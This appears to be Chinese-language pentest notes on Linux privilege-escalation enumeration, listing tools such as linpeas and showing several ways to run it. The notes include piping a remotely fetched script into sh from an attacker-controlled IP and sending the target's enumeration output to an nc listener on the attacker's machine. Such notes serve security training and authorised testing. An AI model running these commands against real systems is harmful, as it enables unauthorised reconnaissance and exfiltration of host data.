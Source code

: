 ```http
https://github.com/diego-treitos/linux-smart-enumeration
```

```http
https://github.com/The-Z-Labs/linux-exploit-suggester
```

```http
https://github.com/sleventyeleven/linuxprivchecker
    // python写的
```

```http
https://github.com/pentestmonkey/unix-privesc-check
  // pentestmonkey 巨佬分享了很多文章
```

## 执行技巧

Linpeas示例

1、下载执行

```http
https://github.com/carlospolop/PEASS-ng/releases/download/20230528-732e358b/linpeas.sh
```

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230528-732e358b/linpeas.sh

chmod +x linpeas.sh 
./linpeas.sh
```

2、远程执行

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/download/20230528-732e358b/linpeas.sh | sh
```

3、远程执行（不出网情况）

攻击机先开一个小型服务器，放上 Linpeas，在远程执行

```bash
curl http://192.168.0.103:8088/linpeas.sh | sh
```

4、把执行结果传回攻击机 kali

kali开启web服务，并且开启nc监听

```bash
sudo python -m http.server 8088
sudo nc -lvnp 81 | tee linpeas.txt
```

ubuntu远程执行Linpeas并把结果用nc传输到kali

```bash
curl http://192.168.0.103:8088/linpeas.sh | sh | nc 192.168.0.103 81
```
